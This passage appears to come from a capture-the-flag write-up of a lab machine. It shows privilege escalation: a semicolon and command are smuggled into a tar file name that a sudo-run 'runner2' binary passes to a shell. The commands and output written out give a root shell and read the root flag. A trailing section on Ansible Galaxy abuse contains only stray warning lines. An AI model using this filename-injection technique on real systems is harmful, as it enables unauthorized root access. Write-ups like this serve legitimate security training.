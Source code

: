 ### via Command Injection

In `runner1`, the file name was used to build a string that was run, so putting in a `;` in the file name would get command injection. I’ll try here:

```

lopez@intuition:/tmp$ echo '{"run": {"action": "install", "role_file": "/tmp/0xdf.tar;id"}, "auth_code": "UHI75GHINKOP"}' > 0xdf.json
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 0xdf.json 
Invalid tar archive.

```

It’s back to saying it’s not a valid archive. That check wasn’t in `runner1`, but I can guess that it’s taking the full file name and checking it as a file. So I’ll make an archive with a `;` in it:

```

lopez@intuition:/tmp$ cp 0xdf.tar '0xdf.tar;id'
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 0xdf.json 
Starting galaxy role install process
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
ERROR! - you can use --ignore-errors to skip failed roles and finish processing the list.
uid=0(root) gid=0(root) groups=0(root)

```

That’s command injection! Turning that into a shell is as simple as changing `id` to `bash`:

```

lopez@intuition:/tmp$ cp '0xdf.tar;id' '0xdf.tar;bash'
lopez@intuition:/tmp$ echo '{"run": {"action": "install", "role_file": "/tmp/0xdf.tar;bash"}, "auth_code": "UHI75GHINKOP"}' > 0xdf.json
lopez@intuition:/tmp$ sudo /opt/runner2/runner2 0xdf.json 
Starting galaxy role install process
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
ERROR! - you can use --ignore-errors to skip failed roles and finish processing the list.
root@intuition:/tmp# id
uid=0(root) gid=0(root) groups=0(root)

```

And now I can read `root.txt`:

```

root@intuition:/tmp# cat /root/root.txt
4462144b************************

```

### via Ansible Galaxy Abuse


[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.